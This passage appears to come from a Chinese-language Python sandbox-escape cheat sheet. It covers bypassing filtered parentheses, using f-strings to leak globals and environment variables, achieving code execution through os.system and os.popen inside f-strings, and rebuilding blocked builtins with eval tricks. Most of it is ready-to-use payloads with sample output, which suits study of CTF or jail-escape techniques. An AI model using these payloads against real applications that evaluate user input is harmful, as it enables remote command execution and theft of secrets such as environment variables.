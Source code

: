 例如
```py
for i in [(100, 100, 1, 1), (100, 2, 1, 2), (100, 100, 1, 2), (100, 2, 1, 1)]:
    ans = i[0]==i[1] and i[2]==i[3]
    print(bool(eval(f'{i[0]==i[1]} & {i[2]==i[3]}')) == ans)
    print(bool(eval(f'{i[0]==i[1]} * {i[2]==i[3]}')) == ans)
```

### 过滤了 ()

1. 利用装饰器 @
2. 利用魔术方法，例如 `enum.EnumMeta.__getitem__`

### f 字符串执行
f 字符串算不上一个绕过，更像是一种新的攻击面，通常情况下用来获取敏感上下文信息,例如过去环境变量
```py
{whoami.__class__.__dict__}
{whoami.__globals__[os].__dict__}
{whoami.__globals__[os].environ}
{whoami.__globals__[sys].path}
{whoami.__globals__[sys].modules}

# Access an element through several links
{whoami.__globals__[server].__dict__[bridge].__dict__[db].__dict__}
```

也可以直接 RCE
```py
>>> f'{__import__("os").system("whoami")}'
kali
'0'
>>> f"{__builtins__.__import__('os').__dict__['popen']('ls').read()}"
```


### 反序列化绕过


### 过滤了内建函数
#### eval + list + dict 构造
假如我们在构造 payload 时需要使用 str 函数、bool 函数、bytes 函数等，则可以使用 eval 进行绕过。
```py
>>> eval('str')
<class 'str'>
>>> eval('bool')
<class 'bool'>
>>> eval('st'+'r')
<class 'str'>
```
这样就可以将函数名转化为字符串的形式，进而可以利用字符串的变换来进行绕过。
```py
>>> eval(list(dict(s_t_r=1))[0][::2])
<class 'str'>
```
这样一来，只要 list 和 dict 没有被禁，就可以获取到任意的内建函数。如果某个模块已经被导入了，则也可以获取这个模块中的函数。
